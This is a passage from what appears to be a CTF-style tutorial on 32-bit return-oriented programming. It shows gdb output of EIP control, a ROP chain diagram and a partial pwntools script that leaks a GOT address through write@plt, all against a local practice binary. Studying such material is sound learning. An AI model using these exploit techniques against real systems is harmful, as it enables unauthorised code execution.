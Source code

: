 Attaching it t `gdb`:-

```r
gef➤  attach 7162
Attaching to program: /home/d4mianwayne/Pwning/rop/chall, process 7162
Reading symbols from /lib/i386-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/i386-linux-gnu/libc-2.27.so...done.
done.

-- snip 

gef➤  c
Continuing.
```

Then continuing the exploit script, in `gdb` we can see:-

```r
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0xdeadbeef in ?? ()
```

### Leaking `GOT` Address

Since there is no `puts`, we have to use `write` to leak a GOT address. since this binary has `write`, `write` it takes 3 arguments, we need a gadget in order to push those arguments to stack and eventually, they'll get passed to the `write` function.

```r
-------------------------------------------------------------------------------------------------------
|  padding to EIP | write@plt | pop esi; pop edi; pop ebp; ret;  | 0x1 | GOT Address | bytes to write |
-------------------------------------------------------------------------------------------------------
```

* `0x1`: To print the leak at the stdout.
* `GOT Address` : The GOT address to print. 


Now, let's create the ROP chain which will be used to leak the address:

```python
payload += p32(elf.plt['write'])
payload += p32(gadget)
payload += p32(1)
payload += p32(elf.got['read'])
payload += p32(0x8)
```

Where `gadget` would be `pop esi; pop edi; pop ebp; ret;` stored at teh address `0x080484e9`.

Let's run the exploit and then parse the leaked address:-

```python
from pwn import *

p = process("./chall")

elf = ELF("chall")
libc = elf.libc

gadget = 0x080484e9 #  pop esi; pop edi; pop ebp; ret;

payload = b"A"*13 # Offset to `EIP`
payload += p32(elf.plt['write']) # Calling `write`
payload += p32(gadget) # Passing Gadgets
payload += p32(1) # Giving 1st argument
```